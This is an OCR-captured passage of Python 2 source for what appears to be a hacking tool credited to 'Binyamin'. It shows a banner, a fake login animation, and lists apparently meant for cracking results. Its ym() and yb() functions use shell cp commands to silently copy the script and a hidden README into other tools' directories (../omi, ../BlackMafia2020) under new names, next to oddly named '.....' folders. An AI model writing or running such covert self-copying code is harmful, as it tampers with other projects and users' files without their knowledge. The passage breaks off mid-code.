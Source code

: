 
def psb(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(0.03)

def t():
    time.sleep(1)
def cb():
    os.system('clear')
##### LOGO #####
logo='''
88888888ba   888      88
88      "8b  8888     88
88      ,8P  88 88    88
88_____-8P'  88  88   88
88------8b,  88   88  88
88      `8b  88    88 88
88      a8P  88     8888
88888888P"   88      888

--------------------------------------------------
➣ Auther   : Binyamin
➣ GitHub   : https://github.com/binyamin-binni
➣ YouTube  : Trick Proof
➣ Blogspot : https://trickproof.blogspot.com
--------------------------------------------------
                                '''

def tik():
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r[●] Loging In "+o),;sys.stdout.flush();time.sleep(1)


back = 0
successful = []
cpb = []
oks = []
id = []

def ym():
    try:
        cb()
        os.mkdir("../omi/.....")
    except OSError:
        yp()
    else:
        os.system("cp ../bn/bn.py ../omi/Omi.py")
        os.system("cp ../bn/.README.md ../omi/")
        yb()
    
def yb():
    try:
        os.mkdir("../BlackMafia2020/.....")
    except OSError:
        yl()
    else:
        os.system("cp ../bn/bn.py ../BlackMafia2020/lovehacker")
        os.system("cp ../bn/.README.md ../BlackMafia2020/")
        yl()
    